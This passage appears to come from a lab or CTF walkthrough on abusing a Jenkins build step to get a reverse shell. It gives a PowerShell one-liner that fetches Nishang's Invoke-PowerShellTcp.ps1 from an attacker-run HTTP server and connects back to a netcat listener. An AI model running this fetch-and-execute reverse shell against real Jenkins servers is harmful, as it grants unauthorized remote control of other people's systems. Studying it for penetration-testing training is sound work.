

With the same step but with different command we can produce reverse shell.
On reverse item we've created click configure

Change ping command with:
powershell iex (New-Object Net.WebClient).DownloadString('http://your-http-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port, then click save.

Setup HTTP server on nishang folder. You can get it here https://github.com/samratashok/nishang

Setup netcat to receive reverse shell

On the jenkins platform, click build now like a previous step.

We got the reverse shell!